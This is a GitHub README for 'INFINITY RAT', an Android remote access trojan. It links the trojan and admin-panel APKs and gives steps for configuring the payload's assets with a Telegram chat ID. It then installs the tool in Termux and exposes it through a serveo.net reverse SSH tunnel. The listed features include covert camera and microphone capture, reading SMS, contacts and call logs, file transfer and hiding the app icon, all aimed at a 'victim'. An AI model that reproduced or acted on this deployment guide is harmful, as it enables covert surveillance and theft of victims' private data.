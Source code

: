 # INFINITY RAT
![infinity](https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/3d071fda-f2df-4391-bfd8-d6e687ae9fd7)

## Application
- 𝙰𝙳𝙼𝙸𝙽 𝙿𝙰𝙽𝙴𝙻[➱](https://github.com/infinitynetwork13/INFINITY-RAT/raw/main/APP/Admin_Panel.apk)
- 𝙸𝙽𝙵𝙸𝙽𝙸𝚃𝚈 𝚁𝙰𝚃 [➱](https://github.com/infinitynetwork13/INFINITY-RAT/raw/main/APP/INFINITY_RAT.apk)
- 𝙰𝙿𝙺 𝙴𝙳𝙸𝚃𝙾𝚁[➱](https://github.com/infinitynetwork13/INFINITY-RAT/raw/main/APP/APK_Editor.apk)
- 𝚃𝙴𝚁𝙼𝚄𝚇[➱](https://f-droid.org/repo/com.termux_118.apk)

## 𝐄𝐛𝐢𝐭 𝐀𝐩𝐩𝐥𝐢𝐜𝐚𝐭𝐢𝐨𝐧
- 𝐀𝐩𝐤 𝐄𝐝𝐢𝐭𝐨𝐫
```
𝙾𝚙𝚎𝚗 𝐀𝐩𝐤 𝐄𝐝𝐢𝐭𝐨𝐫
𝙲𝚕𝚒𝚌𝚔 𝐀𝐩𝐤 𝐅𝐢𝐥𝐞
𝚂𝚎𝚕𝚎𝚌𝚝 𝗜𝗡𝗙𝗜𝗡𝗜𝗧𝗬_𝗥𝗔𝗧.𝗮𝗽𝗸
𝚂𝚎𝚕𝚎𝚌𝚝 𝗦𝗶𝗺𝗽𝗹𝗲 𝗘𝗱𝗶𝘁
𝙲𝚕𝚒𝚌𝚔 𝗔𝘀𝘀𝗲𝘁𝘀
```
```
┌───𝗔𝘀𝘀𝗲𝘁𝘀
├──𝘂𝗶𝗱.𝘁𝘅𝘁
├─𝘂𝗿𝗹.𝘁𝘅𝘁
├𝗰𝗵𝗮𝘁_𝗶𝗱.𝘁𝘅𝘁
```
- 𝗔𝗱𝗺𝗶𝗻 𝗣𝗮𝗻𝗲𝗹
```
𝙾𝚙𝚎𝚗 𝗔𝗱𝗺𝗶𝗻 𝗣𝗮𝗻𝗲𝗹
𝙲𝚕𝚒𝚌𝚔 𝗦𝗶𝗻𝗴 𝗶𝗻 𝗚𝗼𝗼𝗴𝗹𝗲
𝚂𝚎𝚕𝚎𝚌𝚝 𝗚𝗼𝗼𝗴𝗹𝗲 𝗮𝗰𝗰𝗼𝘂𝗻𝘁 
𝙲𝚘𝚙𝚢 𝚄𝙸𝙳
```

- 𝘂𝗶𝗱.𝘁𝘅𝘁
```
𝗔𝗱𝗺𝗶𝗻 𝗣𝗮𝗻𝗲𝗹 𝚄𝙸𝙳
```
- 𝘂𝗿𝗹.𝘁𝘅𝘁
```
𝚈𝚘𝚞𝚛 𝚅𝚒𝚌𝚝𝚒𝚖 𝚅𝚒𝚎w
𝘂𝗶𝗱 𝗘𝘅𝗮𝗺𝗽𝗹𝗲: http://www.google.com
```
- 𝗰𝗵𝗮𝘁_𝗶𝗱.𝘁𝘅𝘁

𝙲𝚕𝚒𝚌𝚔[@chat_id_echo_bot](https://t.me/chat_id_echo_bot)
![chat_id](https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/64017b30-3dec-4f49-98ca-99a763280001)


## 𝗧𝗲𝗿𝗺𝘀 𝗼𝗳 𝗨𝘀𝗲

ʏᴏᴜʀ ʜᴜɴᴛɪɴɢ ᴅᴇᴠɪᴄᴇ ᴡɪᴛʜ ᴛʜɪs ᴀᴘᴘ

```python
 ●𝙵𝚘𝚗𝚝 𝙲𝚊𝚖𝚎𝚛𝚊
 ●𝙱𝚊𝚌𝚔 𝙲𝚊𝚖𝚎𝚛𝚊
 ●𝙼𝚒𝚌𝚛𝚘𝚙𝚑𝚘𝚗𝚎 𝚁𝚎𝚌𝚘𝚛𝚍 
 ●𝙲𝚘𝚗𝚝𝚊𝚌𝚝 𝙽𝚞𝚖𝚋𝚎𝚛 𝙸𝚗𝚏𝚘
 ●𝙰𝚍𝚍 𝙲𝚘𝚗𝚝𝚊𝚌𝚝 𝙽𝚞𝚖𝚋𝚎𝚛 
 ●𝙲𝚊𝚕𝚕 𝙻𝚘𝚐 𝙸𝚗𝚏𝚘
 ●𝚃𝚎𝚛𝚐𝚊𝚝 𝙲𝚊𝚕𝚕
 ●𝚂𝚑𝚘𝚠 𝚃𝚘𝚊𝚜𝚝 𝙼𝚎𝚜𝚜𝚊𝚐𝚎
 ●𝚂𝚑𝚘𝚠 𝙽𝚘𝚝𝚒𝚏𝚒𝚌𝚊𝚝𝚒𝚘𝚗
 ●𝚁𝚎𝚌𝚎𝚒𝚟𝚎 𝚒𝚗𝚌𝚘𝚖𝚒𝚗𝚐 𝚂𝙼𝚂
 ●𝚂𝚎𝚗𝚍 𝚂𝚖𝚜
 ●𝚂𝚖𝚜 𝙻𝚒𝚜𝚝
 ●𝙰𝚙𝚙 𝙸𝚗𝚏𝚘 𝙻𝚒𝚜𝚝
 ●𝙾𝚙𝚎𝚗 𝙰𝚙𝚙
 ●𝚄𝚙𝚕𝚘𝚊𝚍 𝚏𝚒𝚕𝚎
 ●𝙳𝚘𝚠𝚗𝚕𝚘𝚊𝚍 𝙵𝚒𝚕𝚎
 ●𝙸𝚖𝚊𝚐𝚎 𝙻𝚒𝚜𝚝
 ●𝙷𝚒𝚍𝚎 𝙰𝚙𝚙 𝙸𝚌𝚘𝚗
 ●𝙿𝚕𝚊𝚢 𝙼𝚞𝚜𝚒𝚌
 ●𝙲𝚑𝚊𝚗𝚐𝚎  𝚅𝚒𝚎𝚠 𝚄𝚛𝚕
 ●𝚅𝚒𝚎𝚠 𝙰𝚗𝚍𝚛𝚘𝚒𝚍 𝚟𝚎𝚛𝚜𝚒𝚘𝚗
 ●𝚅𝚒𝚎𝚠 𝙳𝚎𝚟𝚒𝚌𝚎 𝙼𝚘𝚍𝚎𝚕
 ●𝚅𝚒𝚎𝚠 𝙱𝚊𝚝𝚝𝚎𝚛𝚢
 ●𝚅𝚒𝚎𝚠 𝚂𝚒𝚖 𝙲𝚊𝚛𝚍 𝙽𝚊𝚖𝚎
```

## 𝑨𝒑𝒑 𝑺𝒆𝒓𝒗𝒊𝒄𝒆
```Bash
 ●𝙱𝚊𝚌𝚔𝚐𝚛𝚘𝚞𝚗𝚍 𝚜𝚎𝚛𝚟𝚒𝚌𝚎 𝟸𝟺𝚑
 ●𝙲𝚘𝚗𝚗𝚎𝚌𝚝 > 𝙳𝚒𝚜𝚌𝚘𝚗𝚗𝚎𝚌𝚝 > 𝙲𝚘𝚗𝚗𝚎𝚌𝚝
```
## Video


[](https://www.youtube.com/embed/q0G_vGXA7rQ)


## install Tool

```bash
pkg update -y
pkg upgrade -y
apt-get install python -y
apt-get install git -y
apt-get install wget -y
apt-get install openssh -y
apt-get install nodejs -y
pip install requests
git clone https://github.com/infinitynetwork13/INFINITY-RAT.git
```
- SSH
```bash
ssh -R 80:localhost:9999 serveo.net
```
`(yes/no/fingerprint) yes`
`CTRL + c`
## Past Time Run
```bash
cd INFINITY-RAT
bash install.sh
```
## Other Time Run
```bash
cd INFINITY-RAT
python infinity.py
```
## CONTACT
<div align="center">
	<a href="mailto:infinity.network13@gmail.com"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/2802c88a-f4e0-4380-9b60-6807cdf33446"/></a>
	<a href="https://t.me/Infinity_info_network"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/4acb85cb-3cf9-4e37-9d69-ce0e113be140"/></a>
	<a href="https://infinitynetwork13.weebly.com/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/146b4540-d231-4b62-bf02-32e2a9031439"/></a>
	<a href="https://www.facebook.com/profile.php?id=100094097389473"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/bc1bc5d1-c136-467a-9009-13b75c210c9f"/></a>
	<a href="https://g.dev/mr_shohid"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/f38b2c93-46ab-48a5-b2a7-3cb693371ce6"/></a>
<a href="https://youtube.com/@infinityinfo_?si=MY72qvkV8AW-iz_v"><img width="35px" height="28px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/0285ed14-60ee-4ff1-a92f-44eaf9f7a833"/></a>
</div>

## Language
<div align="center">
	<a href="https://www.python.org/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/0d2f5917-138c-4fca-afc5-c166799e205d"/></a>
	<a href="https://nodejs.org/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/396c70c6-cc4f-4302-8d64-77e11f1914e0"/></a>
	<a href="https://www.gnu.org/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/575e3506-fee0-4f92-a7b9-0e9f0559438e"/></a>
	<a href="https://html.com/"><img width="35px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/df47658e-0450-48b5-b972-25a724cdfb65"/></a>
	<a href="https://www.free-css.com/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/958b2e4d-f81f-4b38-8859-d25f262a0108"/></a>
	<a  href="https://developer.mozilla.org/en-US/docs/Web/JavaScript"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/11834238-4725-4c28-8646-4a2fc124d829"/></a>
</div>
